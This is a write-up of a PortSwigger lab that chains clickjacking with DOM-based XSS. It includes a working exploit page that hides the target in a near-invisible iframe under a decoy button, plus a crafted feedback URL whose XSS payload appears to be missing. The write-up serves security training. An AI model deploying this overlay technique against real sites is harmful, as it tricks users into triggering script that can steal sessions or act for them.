



# Lab 04: Exploiting clickjacking vulnerability to trigger DOM-based XSS

> **Topic**: Clickjacking
> **Lab Number**: 04
> **Platform**: PortSwigger Web Security Academy

## Category
Clickjacking — Chaining with DOM-based XSS

## Vulnerability Summary
This lab demonstrates the power of chaining clickjacking with other vulnerabilities, specifically DOM-based XSS. The application's "Submit feedback" page is vulnerable to DOM-based XSS through its URL parameters. Furthermore, the page lacks frame protection, allowing an attacker to load it in an iframe. By pre-filling the feedback form with an XSS payload via URL parameters and then using clickjacking to trick the user into clicking the "Submit feedback" button, the attacker can execute arbitrary JavaScript in the context of the user's session.

## Attack Methodology

### Step 1: Discover the DOM XSS
I navigated to the `/feedback` page and observed that various URL parameters (name, email, subject, message) are reflected in the DOM after the "Submit feedback" button is clicked. Testing the `name` parameter with a simple payload revealed a DOM XSS sink.

### Step 2: Construct the XSS Payload
I crafted a URL that pre-fills the feedback form and includes an XSS payload in the `name` parameter:

```
/feedback?name=&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult
```

The `#feedbackResult` fragment is used to ensure the page scrolls to the area where the XSS is triggered upon submission.

### Step 3: Craft the Clickjacking Exploit
I used the exploit server to create an HTML page that frames the malicious feedback URL. I positioned a decoy "Click me" button over the hidden "Submit feedback" button.

**Exploit Payload:**
```html
<style>
    iframe {
        position: relative;
        width: 500px;
        height: 700px;
        opacity: 0.0001; /* Invisible to the victim */
        z-index: 2;
    }
    div {
        position: absolute;
        /* Aligned over the 'Submit feedback' button */
        top: 610px; 
        left: 80px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a38003d043c83b0816438ee01ec0030.web-security-academy.net/feedback?name=&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```


*The target feedback page with the XSS payload pre-filled and the print dialog triggered (manually for verification).*

### Step 4: Execution
I set the iframe opacity to `0.0001` and delivered the exploit to the victim. When the victim clicks "Click me", the hidden "Submit feedback" button is pressed, triggering the DOM-based XSS which calls `print()`.


*The exploit server configuration chaining the pre-filled XSS payload with clickjacking.*


*Lab successfully solved.*

## Technical Root Cause
The vulnerability is a result of two separate security failures:
1.  **Insecure DOM Sink**: The application takes data from the URL (an untrusted source) and writes it to the DOM in an insecure manner, allowing for XSS.
2.  **Lack of UI Redressing Defense**: The absence of `X-Frame-Options` or CSP `frame-ancestors` allows the vulnerable page to be framed and controlled by an external site.

## Impact
- **Execution of Arbitrary JavaScript**: Attackers can steal session cookies, perform actions on behalf of the user, or redirect them to malicious sites.
- **Bypass of User Interaction Requirements**: Some XSS vulnerabilities require a user to perform an action (like clicking a button). Clickjacking removes this barrier by tricking the user into providing that interaction.

## Proof of Concept
1. Identify a DOM XSS vulnerability triggered by a button click.
2. Craft a URL that pre-fills the form with the XSS payload.
3. Frame the malicious URL in an invisible iframe.
4. Overlay a decoy button over the XSS-triggering element.
5. Entice a user to click the decoy button.

## Key Takeaways
1. **Chaining Increases Severity**: Clickjacking is often dismissed as low impact, but when chained with XSS or other vulnerabilities, it becomes a powerful exploitation tool.
2. **Sanitize All Inputs**: Never trust data from the URL, even if it requires a user action to be processed.
3. **Global Frame Protection is Mandatory**: Implement frame protection across the entire application to prevent it from being used as an exploitation pivot.

## Mitigation
1. **Secure Coding Practices**: Use safe sinks (e.g., `textContent` instead of `innerHTML`) and sanitize all data before writing it to the DOM.
2. **Implement Frame Protection**:
    - `X-Frame-Options: SAMEORIGIN`.
    - `Content-Security-Policy: frame-ancestors 'self'`.
3. **Content Security Policy (XSS)**: Implement a strict CSP to block the execution of inline scripts and untrusted external scripts.

## References
- [PortSwigger Clickjacking Lab - DOM-based XSS](https://portswigger.net/web-security/clickjacking/lab-exploiting-clickjacking-vulnerability-to-trigger-dom-based-xss)
- [OWASP DOM Based XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/DOM_Based_XSS_Prevention_Cheat_Sheet.html)

---

*Lab completed on: 2026-05-16*
*Writeup by vibhxr*
